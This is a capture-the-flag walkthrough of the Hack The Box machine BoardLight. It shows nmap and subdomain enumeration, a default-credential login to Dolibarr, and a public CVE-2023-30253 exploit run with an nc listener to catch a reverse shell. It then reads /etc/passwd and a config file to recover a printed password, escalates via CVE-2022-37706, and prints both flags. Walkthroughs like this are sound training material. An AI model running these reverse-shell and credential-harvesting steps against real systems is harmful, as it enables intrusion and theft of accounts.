




# BoardLight

**Level — Easy**

**Machine URL:** [Hack The Box :: Hack The Box](https://app.hackthebox.com/machines/603)

**About BoardLight** — _BoardLight is the latest box in Season 5 on HackTheBox. It’s a Medium-Easy box._

## Enumeration

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A -Pn 10.10.11.11

[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 17:30 EDT
Nmap scan report for 10.10.11.11
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
...
```

The scan shows TCP ports **22** and **80** are open.

Add the host to `/etc/hosts`:

```bash
sudo echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

When browsing the IP in Firefox, a webpage appears showing **Welcome to BOARDLIGHT** maintained by **board.htb**. Fuzzing the host reveals a subdomain:

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -fc 15949

crm          [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 60ms].board.htb
```

Add the discovered subdomain to `/etc/hosts`:

```bash
sudo echo "10.10.11.11 crm.board.htb" | sudo tee -a /etc/hosts
```

## Exploitation

Open the site:

```
http://crm.board.htb/
```


A **Dolibarr** login page is shown, and the version is **17.0.0**. Looking up exploits leads to **CVE-2023-30253**.

Default credentials:

```
admin:admin
```

After logging in as admin:


Exploit reference:

```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

Use the exploit to get a reverse shell. Open another terminal and start a listener:

```bash
python3 exploit.py http://crm.board.htb admin admin 10.10.14.94 4047
```

```bash
nc -lvnp 4047
```

### Reverse shell received as `www-data`



There are useful files under the Dolibarr installation. The `conf` directory contains a configuration file with credentials.

Check users with bash shells:

```bash
cat /etc/passwd | grep bash
```

```
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
```

Read the configuration file:

```bash
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
```


The file reveals a username and password.

## Privilege Escalation

Log in as `larissa` using the recovered password:

```
larissa:serverfun2$2023!!
```



User flag:

```
User.txt — bd40e0fd02039fd28a648da0bb5945fc
```

## Post Exploitation

`linpeas.sh` shows a vulnerable SUID binary.



The SUID issue is exploited using **CVE-2022-37706**.

Exploit reference:

```
https://www.exploit-db.com/exploits/51180
```



Root flag:

```
Root.txt — 96c2e95dfa47ef858beb04a46483aca0
```
